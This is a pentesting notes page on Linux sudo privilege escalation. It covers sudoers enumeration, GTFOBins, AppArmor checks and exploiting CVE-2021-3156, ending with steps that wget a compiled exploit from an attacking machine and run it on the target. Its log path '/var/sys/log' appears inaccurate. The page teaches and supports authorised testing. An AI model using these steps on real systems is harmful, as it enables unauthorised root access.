

repository: amandaguglieri/hackinglife · page: sudo-rights-abuse/index.html · generator: mkdocs

---
title: Sudo Rights Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
# Sudo Rights Abuse

`sudo` stands for "superuser-do". This commands changes the effective userID of the executed commands.

When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`. 

Therefore the  `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges.

```bash
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

```
sudo -l
```

If the response contains a list of binaries, try to elevate privileges with the returned commands and the [https://gtfobins.org/](https://gtfobins.org/). If not possible, look for the command in logs and see if apparmor is preventing the privilege escalation: 

```bash
cat /var/sys/log | grep command
```

Sometimes these commands are protected with Apparmor. Check the status of Apparmor:

```bash
aa-status
```


## Vulnerable sudo version

Find out the version of `sudo`:

```shell-session
sudo -V | head -n1
```

### CVE-2021-3156: hax-me-a-sandwich

This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

Proof of concept: [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

In our attacking machine:

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```

This will generate the file sudo-hax-me-a-sandwich. Now we serve this file from our attacking machine:

```
python3 -m http.server 80
```

From the target machine:

```
wget http://$IPAttackingMachine/sudo-hax-me-a-sandwich
chmod +x sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich
```
